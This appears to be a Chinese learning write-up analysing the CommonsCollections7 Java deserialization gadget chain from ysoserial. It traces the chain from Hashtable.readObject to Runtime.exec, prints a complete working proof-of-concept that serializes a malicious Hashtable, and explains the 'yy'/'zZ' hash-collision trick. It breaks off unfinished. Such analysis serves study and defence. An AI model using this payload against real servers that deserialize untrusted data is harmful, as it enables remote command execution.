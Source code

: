 # CommonsCollections7利用链分析

## 前言

终于迎来最后一条链子`CommonsCollections7`，利用条件如下：
```
CommonsCollections 3.1 - 3.2.1
JDK版本未知限制
```

先看`ysoserial`给出的利用链
```
Payload method chain:

    java.util.Hashtable.readObject
    java.util.Hashtable.reconstitutionPut
    org.apache.commons.collections.map.AbstractMapDecorator.equals
    java.util.AbstractMap.equals
    org.apache.commons.collections.map.LazyMap.get
    org.apache.commons.collections.functors.ChainedTransformer.transform
    org.apache.commons.collections.functors.InvokerTransformer.transform
    java.lang.reflect.Method.invoke
    sun.reflect.DelegatingMethodAccessorImpl.invoke
    sun.reflect.NativeMethodAccessorImpl.invoke
    sun.reflect.NativeMethodAccessorImpl.invoke0
    java.lang.Runtime.exec
```

可以看到从`LazyMap#get()`起后面的都是`CommonsCollections1`的内容，前面则是新知识点，也是一条寻找了其他能触发`LazyMap#get()`方法的链子
## 利用链分析

根据 gadget 先跟进`Hashtable#readObject()`方法源码
![image-20221011152526177](images/image-20221011152526177.png)

其中`s`是我们传入的输入流，分别通过`readObject()`进行反序列化赋值给`key`以及`value`，接着调用`reconstitutionPut()`方法，继续跟进
![image-20221011152715640](images/image-20221011152715640.png)

在`reconstitutionPut()`方法中，调用了`key.equals()`方法，这里我们知道`key`是可控的，根据调用链看，最终是调用了`AbstractMap#equals()`，我们继续跟进`AbstractMap`类的`equals()`方法
![image-20221011153118215](images/image-20221011153118215.png)

可以看见最终调用了`m.get()`方法，也就是如果`m`可控，则可以完成调用`LazyMap#get()`方法触发命令执行。在这里，`m`由传进来的参数`o`控制，也就是最初的`key`。

我们回到原来的`Hashtable`类，既然在`readObject()`方法对输入流进行反序列化，那么我们就去看序列化的方法`writeObject()`
![image-20221011153622433](images/image-20221011153622433.png)

这里的`entryStack.key`和`entryStack.value`则是我们通过`put()`传入的`key`和`value`。因此我们如果`put()`方法中的`key`为`LazyMap`对象的话，最终`m`则是`LazyMap`对象。

这里还剩下一个问题，就是怎么调用到`AbstractMap#equals()`方法呢？

首先我们必须构造`key`为`LazyMap`对象，最后才能调用到`LazyMap#get()`。因此我们再回来看看`LazyMap`类
![image-20221011162909030](images/image-20221011162909030.png)

搜索一遍并没有发现`LazyMap`类有`equals()`方法，但最后注意到`LazyMap`类继承于`AbstractMapDecorator`类，跟进
![image-20221011163120529](images/image-20221011163120529.png)

`AbstractMapDecorator`类含有`equals()`方法。根据前面的学习，我们会构造以下 payload

```java
Map innerMap1 = new HashMap<>();
Map lazyMap1 = LazyMap.decorate(innerMap1,chainedTransformer);
```

所以此时的`this.map`为`HashMap`类对象，因此接下来会进入`HashMap#equals()`
![image-20221011163412678](images/image-20221011163412678.png)

而`HashMap`又继承于`AbstractMap`类，因此最终会调用到`AbstractMap#equals()`方法，整条利用链就通了，妙哉。

最终 POC 为
```java
package com.serialize;

/**
 * Created by dotast on 2022/10/4 21:55
 */

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;

public class CommonsCollections7 {
    public static void main(String[] args) throws Exception {
        CommonsCollections7 commonsCollections7 = new CommonsCollections7();
        commonsCollections7.serialize();
        commonsCollections7.unserialize();
    }

    /*
     * 客户端
     * */
    public void  serialize() throws Exception{
        String cmd = "open -a Calculator.app";

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                // new Class[0]为占位符
                new InvokerTransformer(
                        "getMethod",new Class[]{String.class, Class[].class},new Object[]{"getRuntime",new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",new Class[]{Object.class, Object[].class},new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec", new Class[]{String.class}, new Object[]{cmd}
                )
        };
        // 创建虚假的调用链
        Transformer[] fakeTransformers = new Transformer[]{};
        ChainedTransformer chainedTransformer = new ChainedTransformer(fakeTransformers);
        Map innerMap1 = new HashMap<>();
        Map innerMap2 = new HashMap<>();
        Map lazyMap1 = LazyMap.decorate(innerMap1,chainedTransformer);
        lazyMap1.put("yy",1);
        Map lazyMap2 = LazyMap.decorate(innerMap2,chainedTransformer);
        lazyMap2.put("zZ",1);

        Hashtable hashtable = new Hashtable<>();
        hashtable.put(lazyMap1, 1);
        hashtable.put(lazyMap2, 2);

        // 将真正的利用链数组设置到ChainedTransformer里面的iTransformers字段值
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(chainedTransformer, transformers);

        lazyMap2.remove("yy");
        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        // 创建并实例化对象输出流
        ObjectOutputStream out = new ObjectOutputStream(fileOutputStream);
        out.writeObject(hashtable);
    }

    /*
     * 服务端
     *  */
    public void unserialize() throws Exception{
        // 创建并实例化文件输入流
        FileInputStream fileInputStream = new FileInputStream("1.txt");
        // 创建并实例化对象输入流
        ObjectInputStream in = new ObjectInputStream(fileInputStream);
        in.readObject();
    }
}
```

POC 中有几个问题需要解答。

- 为什么`Hashtable`需要 put 两次？

在`Hashtable#reconstitutionPut()`方法中，第一次进入时`tab`内容为空，无法进入 for 循环，进而没法调用到`key.equals()`方法
![image-20221011164109290](images/image-20221011164109290.png)

为了调用两次`reconstitutionPut()`方法，我们需要通过`put()`两次内容，使得` elements`的值为2，进而在 for 循环里运行两次`reconstitutionPut()`方法
![image-20221011164346546](images/image-20221011164346546.png)

- 为什么`lazyMap()`需要`yy`和`zZ`两个字符串？

还是`reconstitutionPut()`方法，`e.hash == hash`会判断上一个`key`的`hash`是否与当前`key`的`hash`相等，只有相等才能进入下一步。
![image-20221011165323252](images/image-20221011165323252.png)

而字符串`yy`和`zZ`经过`hashCode()`方法计算是相等的
![image-20221011170202472](images/image-20221011170202472.png)

那么为什么这两个字符串会相等呢？因为是字符串，所以我们跟进`String#hashCode()`方法
![image-20221011171013521](images/image-20221011171013521.png)

算法就这一句
```
h = 31 * h + val[i];
```

首先第一个`y`的`ascii`值为 121，而第一个`z`的`ascii`值为 122，经过计算：
```
a:  y->121 y-> 121*31 + 121 = 3872
b:  z->122 ？-> 122*31 + ？  = 3872  -> ? = 90
```

所以要想`a`和`b`经过`hashCode()`方法计算相等，`b`的第二个元素就得比`a`小，结果为`Z`，`Z`的`ascii`值为 90

- 为什么最后要`remove("yy")`？

晚点写，吃饭先

